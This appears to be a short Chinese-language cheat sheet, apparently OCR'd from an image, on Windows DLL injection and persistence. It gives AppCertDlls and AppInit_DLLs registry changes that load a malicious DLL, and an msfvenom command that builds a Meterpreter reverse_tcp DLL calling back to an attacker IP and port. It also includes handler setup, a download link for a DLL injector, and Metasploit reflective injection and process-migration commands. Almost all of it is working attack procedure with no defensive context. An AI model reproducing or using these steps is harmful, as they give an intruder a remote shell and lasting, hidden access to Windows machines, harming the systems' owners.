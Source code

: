   #### AppCertDlls
	注册表HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SessionManager\下新建AppCertDlls，新建名字为Default，值为c:\1.dll的项
	#msfvenom –p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 –f dll >/root/1.dll
	Msf>use exploit/multi/handler
	Msf>set payload windows/meterpreter/reverse_tcp
	https://cdn.securityxploded.com/download/RemoteDLLInjector.zip
	> RemoteDLLInjector64.exe PID c:\1.dll
  #### AppInit_DLLs
	注册表HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Window\Appinit_Dlls下AppInit_DLLs设置为c:\1.dll，LoadAppInit_DLLs设置为1
  #### MSF
	Msf>use post/windows/manage/reflective_dll_inject
	Msf>set session 1
	Msf>set pid 1234
	Msf>set path c:\\1.dll
	Msf>run
	&
	migrate +pid
	&
	Meterpreter>run post/windows/manage/migrate